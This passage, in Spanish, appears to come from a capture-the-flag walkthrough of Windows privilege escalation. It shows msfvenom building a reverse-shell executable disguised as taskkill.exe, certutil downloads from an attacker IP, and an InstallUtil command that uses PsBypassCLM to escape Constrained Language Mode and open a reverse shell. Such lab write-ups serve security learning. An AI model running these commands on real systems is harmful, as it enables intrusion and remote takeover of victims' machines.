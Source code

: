 Tengo capacidad de escritura en la ruta donde está instalado unifi-articulo. Al reiniciar el servicio se busca por un binario que no existe. El vector de escalada consiste en crear mi propio binario que se encargue enviarme una reverse shell a mi equipo

Con msfvenom creo el payload

```null
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=443 --platform windows -f exe -o taskkill.exe
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: taskkill.exe
```

Creo un servicio http con python y lo descargo en la máquina víctima. Al ejecutarlo para comprobar que está funcional, lo bloquea el AMSI

```null
*Evil-WinRM* PS C:\ProgramData\unifi-articulo> certutil.exe -f -split -urlcache http://10.10.16.3/taskkill.exe taskkill.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

*Evil-WinRM* PS C:\ProgramData\unifi-articulo> .\taskkill.exe
Program 'taskkill.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~.
At line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Intento corromper la tarea, pero al estar en un CLM lo tengo más complicado. Utilizo [PsBypassCLM.exe](https://github.com/padovah4ck/PSByPassCLM) para escapar de este contexto

```null
*Evil-WinRM* PS C:\Temp> certutil.exe -f -split -urlcache http://10.10.16.3/PsBypassCLM.exe PsBypassCLM.exe
****  Online  ****
  0000  ...
  8400
CertUtil: -URLCache command completed successfully.

*Evil-WinRM* PS C:\Temp> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.16.3 /rport=443 /U C:\Temp\PsBypassCLM.exe
```

En mi equipo recibo una nueva sesión de PowerShell con FullLanguage
